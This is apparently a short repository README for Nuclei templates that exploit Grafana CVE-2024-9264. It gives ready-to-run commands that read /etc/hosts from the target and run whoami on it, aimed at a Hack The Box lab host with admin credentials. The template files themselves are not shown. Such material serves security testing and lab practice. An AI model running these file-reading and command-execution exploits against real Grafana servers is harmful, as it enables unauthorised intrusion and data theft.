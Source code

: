 ## Grafana

### CVE-2024-9264

#### LFI 

- file: [grafana-cve-2024-9264-lfi.yaml](./grafana-cve-2024-9264-lfi.yaml)

The `grafana-cve-2024-9264-lfi.yaml` template leverages the vulnerability to exfiltrate files from the target.

Please note that you may need to escape slashes when specifying the path of the file you want to read in the rfile variable to prevent Nuclei from trying to open the file on your system.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-lfi.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var rfile="\/etc\/hosts"
```

##### RCE

- file: [grafana-cve-2024-9264-rce.yaml](./grafana-cve-2024-9264-rce.yaml)

The `grafana-cve-2024-9264-rce.yaml` template leverages the vulnerability to run commands the target.

```sh
nuclei -u http://grafana.planning.htb -t ./grafana-cve-2024-9264-rce.yaml -var username=admin -var password=0D5oT70Fq13EvB5r -var command=whoami
```
